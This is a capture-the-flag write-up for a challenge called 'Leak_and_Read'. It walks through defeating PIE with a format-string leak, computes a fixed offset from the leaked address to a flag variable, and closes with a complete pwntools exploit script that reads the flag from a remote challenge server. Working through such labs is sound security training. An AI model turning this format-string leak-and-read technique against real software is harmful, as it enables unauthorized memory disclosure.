







[Source Code](./handout/3-Leak_and_Read)

Let's check the protection of the binary  



We can see that **PIE** is enabled. So for every instance of the program the address of function and variable will be different.  

In order to retrieve the flag, we need to leak an address who will be always at the same distance of the `flag` variable.  

We can do it locally with `gbd/pwndbg`  
First we need to find where to set a `breakpoint` to our program so we can analyse it when it stops.  



In the `gdb/pwndbg` interface we run `disass main` to see the assembly code of the binary. We can see that the `greet` function is called at `main+116`  

Now let's `disass greet`



We will set a breakpoint just before the end of the function `greet+62`

We will use pwntools to make it easier
```python
from pwn import *

FILE = "./leak_and_read"
GDBSCRIPT = '''
	source /opt/tools/gdb/pwndbg/gdbinit.py
	b *greet+62
	c
'''

conn = gdb.debug(FILE, gdbscript=GDBSCRIPT)
payload = b"%9$p"
conn.sendlineafter(b"? ", payload)
output = conn.recvline()
log.info(output.decode())
conn.interactive()
```



Here is what will be displayed. We have the leaked address which is `0x557f922983bf` in this example.  
If you pay attention you can see in the bottom panel that it is the address of `main+121` who is the return address of the main function if you check the disassembly code. 

Now we need to know the `flag` address (in this instance) to calculate the difference.  
By running `info var flag` we get this  


The flag address is `0x0000557f9229b060`

Let's do some subtraction    


**Note**: I actually did the same operation from `%1$p` to `%9$p` to find a stable offset difference.  

That means that `flag_address = leaked_address + 0x2ca1` and it will be the same for every instances of the program.  
With the technique used in [1-Arbitrary_Read](1-Arbitrary_Read.md) to retrieve the `name` variable offset and payload construction, we can retrieve the flag.  

Our final exploit!

```python
#!/usr/bin/env python3

from pwn import *

FILE = "./leak_and_read"
HOST = "chal.sigpwny.com"
PORT = 1383

  
def leak_hex_int(output):
	"""Extract all hex values (0x...) from output and return them as a list of ints."""
	import re
	matches = re.findall(rb'0x[0-9a-fA-F]+', output)
	return [int(m, 16) for m in matches]

# Initiate remote connection
conn = remote(HOST, PORT) 

# Send "%9$p" after we encounter "? " 
conn.sendlineafter(b"? ",f"%9$p".encode())
# Get the result
out = conn.recvline() 

# Extract the leaked address
leak_addr = leak_hex_int(out)[0]
# Display the leaked address
log.info(f"leak_addr = {hex(leak_addr)}")

# Offset difference we calculate earlier
offset_to_flag_var = 0x2ca1
# flag_var calculation
flag_var_addr = leak_addr + offset_to_flag_var
# Display the flag var
log.info(f"flag_var_addr = {hex(flag_var_addr)}")

# Payload construction
payload = b"%11$s" + b"ABC" + p64(flag_var_addr)  
# Send the paylaod
conn.sendlineafter(b"? ",payload)
# Switch to interactive
conn.interactive()
``` 



[4-Grand_Finale](./4-Grand_Finale.md)

